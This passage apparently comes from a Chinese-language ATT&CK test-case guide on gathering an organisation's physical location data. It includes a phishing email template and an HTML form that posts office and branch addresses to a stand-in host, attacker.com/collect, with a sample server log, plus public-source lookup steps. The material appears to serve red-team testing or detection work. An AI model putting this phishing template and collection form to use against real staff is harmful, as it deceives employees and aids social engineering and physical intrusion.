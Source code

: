 #### 测试案例 3：钓鱼收集物理位置信息
**关联技术**：T1591.001（物理位置信息收集）、T1566（钓鱼）  
**说明**：  
- 攻击者通过伪造的邮件或调查问卷，诱导员工泄露办公地点或设施地址信息。  
**示例操作**：
- 发送伪造邮件：  
  ```
  Subject: 办公室地址确认
  Body: 请提供您所在办公室的地址以协助物流安排：http://fake-survey.com
  ```
- 伪造调查页面（HTML 伪代码）：  
  ```html
  <form action="http://attacker.com/collect" method="POST">
      办公室地址: <input type="text" name="office_address">
      分支机构: <input type="text" name="branch">
      <input type="submit" value="提交">
  </form>
  ```
**输出示例**（攻击者服务器日志）：
```
POST /collect HTTP/1.1
office_address=123 Tech Street, Beijing&branch=Shanghai Office, 456 Innovation Road
```
**说明**：  
- 钓鱼攻击可直接收集物理位置信息，为物理入侵或精准社交工程提供基础。  
- 关联 T1591.001：通过钓鱼获取物理位置信息。

#### 测试案例 4：通过公开数据源收集物理位置信息
**关联技术**：T1591.001（物理位置信息收集）  
**说明**：  
- 攻击者通过公开数据源（如 Google Maps、企查查、Crunchbase）或在线地图查询目标组织的办公地点或设施地址。  
**示例操作**：
```bash
# 在 Google Maps 查询公司地址
curl https://maps.google.com?q=Example+Corp
# 或在企查查查询公司注册地址
```
**输出示例**：
```
Organization: Example Corp
Physical Location: 123 Tech Street, Beijing, China
```
**说明**：  
- 公开数据源或在线地图可能暴露组织的分支机构或办公地址。  
- 关联 T1591.001：通过公开数据源获取物理位置信息。

## 测试复现

### 外部场景（公开信息收集）
1. **环境**：Kali Linux 或任何带有浏览器的系统。
2. **步骤**：
   - 搜索目标组织的社交媒体（如微博、LinkedIn），提取物理位置相关关键词（如“office”、“check-in”）。
   - 访问公司官网（如 `https://example.com/contact`），查找分支机构或办公地址。
   - 使用伪造邮件或调查问卷诱导员工泄露办公地点信息。
   - 查询公开数据源（如 Google Maps、企查查），提取公司地址信息。
3. **预期结果**：返回物理位置信息（如 `123 Tech Street, Beijing`, `Shanghai Office, 456 Innovation Road`）。
